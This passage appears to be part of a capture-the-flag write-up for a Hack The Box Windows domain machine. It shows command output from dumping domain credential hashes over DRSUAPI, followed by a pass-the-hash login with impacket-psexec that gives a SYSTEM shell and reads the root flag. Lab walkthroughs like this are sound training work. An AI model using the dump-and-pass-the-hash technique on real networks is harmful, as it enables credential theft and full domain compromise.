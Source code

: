 ```shell-session
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
```
Finally, we can use the `local\Administrator` hash to login via `psexec`, getting us the root flag.
```
knytecode@parrot:~$ impacket-psexec administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file UjifQHry.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service zHNc on 10.10.10.161.....
[*] Starting service zHNc.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd C:/Users/Administrator/Desktop

C:\Users\Administrator\Desktop>type root.txt
f048153f202bbb2f82622b04d79129cc
```

